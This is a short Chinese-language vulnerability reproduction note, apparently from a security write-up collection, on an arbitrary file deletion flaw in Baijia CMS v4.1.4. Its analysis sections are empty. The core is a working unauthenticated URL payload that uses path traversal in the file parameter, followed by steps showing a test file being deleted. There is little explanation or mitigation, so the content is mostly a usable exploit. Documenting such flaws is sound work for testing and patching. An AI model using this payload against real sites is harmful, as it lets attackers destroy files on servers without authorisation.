 百家cms v4.1.4 任意文件删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # payload
    # 不需要后台权限
    # 只能删除文件，不能删除文件夹

    http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt

设置里需要选择本地，否则删除的不是本地文件

![](resource/百家cmsv4.1.4任意文件删除漏洞/media/rId24.png)

先在根目录下创建qwe.txt作为测试文件

![](resource/百家cmsv4.1.4任意文件删除漏洞/media/rId25.png)

访问payload

![](resource/百家cmsv4.1.4任意文件删除漏洞/media/rId26.png)

查看文件，已经被删除

![](resource/百家cmsv4.1.4任意文件删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
